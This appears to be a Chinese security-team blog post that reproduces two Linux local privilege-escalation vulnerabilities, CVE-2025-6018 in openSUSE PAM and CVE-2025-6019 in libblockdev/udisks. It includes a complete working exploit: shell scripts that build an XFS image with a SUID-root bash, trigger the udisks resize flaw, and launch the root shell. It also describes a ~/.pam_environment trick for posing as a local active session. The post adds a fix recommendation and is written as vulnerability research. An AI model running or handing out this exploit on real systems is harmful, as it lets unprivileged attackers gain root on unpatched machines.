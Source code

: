 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzU3ODc2NTg1OA==&mid=2247493268&idx=1&sn=e6a6c7d012105e29b1c1ae2c4c3aa1de

#  CVE-2025-6018 and CVE-2025-6019 本地提权  
原创 星盟@Neko205  星盟安全   2025-07-08 02:35  
  
01 漏洞介绍   
  
—  
  
  
CVE-2025-6018: 在 openSUSE 15 的 PAM 中从无特权用户到 allow_active 的本地权限提升  
  
CVE-2025-6019:   
通过 udisks 利用 libblockdev  
 从 allow_active 到 root 的本地权限提升  
  
  
  
02   
CVE-2025-6019  
本地复现   
  
—  
  
  
  
根据Qualys安全公告不难知道这个CVE的问题出现在xfs文件系统临时挂载的操作上，没有正确使用nosuid，从而导致的问题出现  
  
  
先构建一个xfs的镜像，在其中放入bash  

```
dd if=/dev/zero of=xfs.image bs=1M count=300
# XFS
mkfs.xfs -f xfs.image
sudo mkdir -p /mnt/malicious_image
sudo mount -t xfs xfs.image /mnt/malicious_image
# SUID Shell
sudo cp /bin/bash /mnt/malicious_image/root-shell
sudo chmod 4755 /mnt/malicious_image/root-shell
sudo umount /mnt/malicious_image
sudo rmdir /mnt/malicious_image
echo &#34;ok&#34;
```

  

```
调用脚本
```


```


```

  
  

```
echo &#34;当前用户: $(whoami)&#34;
id
# yes
gdbus call --system --dest org.freedesktop.login1 --object-path /org/freedesktop/login1 --method org.freedesktop.login1.Manager.CanReboot
killall -KILL gvfs-udisks2-volume-monitor &>/dev/null
# loop 设备
udisksctl loop-setup --file ~/xfs.image
# 启动后台进程
while true; do /tmp/blockdev*/root-shell -c 'sleep 5' && break; done &>/dev/null &
# UDisks2 触发漏洞
gdbus call --system --dest org.freedesktop.UDisks2 \
    --object-path /org/freedesktop/UDisks2/block_devices/loop0 \
    --method org.freedesktop.UDisks2.Filesystem.Resize 0 '{}' &>/dev/null
# 等待
sleep 2
# 查找并执行 SUID Shell
ROOT_SHELL_PATH=$(find /tmp -name &#34;root-shell&#34; -perm -4000 2>/dev/null | head -n 1)
if [ -n &#34;$ROOT_SHELL_PATH&#34; ]; then
    echo &#34;成功找到 Root Shell: $ROOT_SHELL_PATH&#34;
    echo &#34;正在提权...&#34;
    ${ROOT_SHELL_PATH} -p
else
    echo &#34;错误: 未找到 SUID Shell，提权失败。&#34;
fi
```

  
  
若成功则效果如下  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXTrvVicanTmtlTjx7jiaYsSyDZ6rgOzibPVIJFQy5CriaNpAsTUylOHiaqcIglbL6c5fyvAB6DhM0Z7hEA/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到euid已经为root  
  
  
修复建议：  
  
将libblockdev更新到3.3.1以上  
  
  
  
0  
3 CVE-2025-6018  
  
—  
  
  
  
  
CVE-2025-6018需要openSUSE的环境，我手上没有相关环境，遂只尝试说明问题  
  
在ssh远程的情况下，这个漏洞无法直接使用，原因是Polkit的权限管理  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXTrvVicanTmtlTjx7jiaYsSyDkPfOibcZkNjNTlTicXldx4sHNAbGNlg8eVo5bsgjxXyom5tQhbj2LsMA/640?wx_fmt=png&from=appmsg "")  
  
  
以reboot策略为例  

```
<action id=&#34;org.freedesktop.login1.reboot&#34;>
                <description gettext-domain=&#34;systemd&#34;>Reboot the system</description>
                <message gettext-domain=&#34;systemd&#34;>Authentication is required to reboot the system.</message>
                <defaults>
                        <allow_any>auth_admin_keep</allow_any>
                        <allow_inactive>auth_admin_keep</allow_inactive>
                        <allow_active>yes</allow_active>
                </defaults>
                <annotate key=&#34;org.freedesktop.policykit.imply&#34;>org.freedesktop.login1.set-wall-message</annotate>
</action>
```

  
  
其中<allow_active>yes</allow_active>控制本地，假设请求来自一个本地的活跃会话则允许操作<allow_any>auth_admin_keep</allow_any>控制其他会话，若请求来自除了本地的活跃会话外的其他会话则需要admin授权  
  
  
假设我们在ssh会话中尝试 会触发Polkit会话控制，效果如下  
  

```
(ssh)neko@aosc-neko205 [ tmp ] $ bash 22.sh 
当前用户: neko
uid=1000(neko) gid=1001(neko) 组=1001(neko),11(audio),12(video),15(cdrom),974(ollama),997(wheel),999(plugdev),1002(gamemode)
('challenge',)
==== AUTHENTICATING FOR org.freedesktop.udisks2.loop-setup ====
设定回环设备需要身份验证
Authenticating as: neko
Password: 
```

  
  
而opensuse的问题也就出在这里，根据Qualys安全公告说明假设构造一个~/.pam_environment 其中内容为XDG_SEAT=seat0 XDG_VTNR=1 则无管理员权限的攻击者可以通过ssh登入，伪装为本地用户，即Polkit语境下的allow_active权限，从而进行CVE-2025-6019的利用完成提权  
  
  
  
   
04 CVE-20  
25-6019 EXP  
  
—  
  

```
https://github.com/neko205-mx/CVE-2025-6019_Exploit
```

  
  
  
参考文档：  
  
https://cdn2.qualys.com/2025/06/17/suse15-pam-udisks-lpe.txt  
  
https://wiki.archlinuxcn.org/wiki/Polkit  
  
**文末:**  
  
欢迎师傅们加入我们:  
  
星盟安全团队纳新群1:  
222328705  
  
星盟安全团队纳新群2:  
346014666  
  
有兴趣的师傅欢迎一起来讨论!  
  
PS:团队纳新简历投递邮箱：  
  
xmcve@qq.com  
  
责任编辑：@Neko205  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXQ5lXrsExLI9KSjQDicKM6nvZRmw9LnopcJictzf6wMDosnAWMltzcRTvM7rwmibzIy4zvDEibpFFL5CQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EEDM9NXhOXRyX2qIp8K3IeQUpoicOSe9I56ooEW8n8QF0Aaw7oZYqCnB8TPW0q8xYPfAb5Pnh97OFHwWjJm7khA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
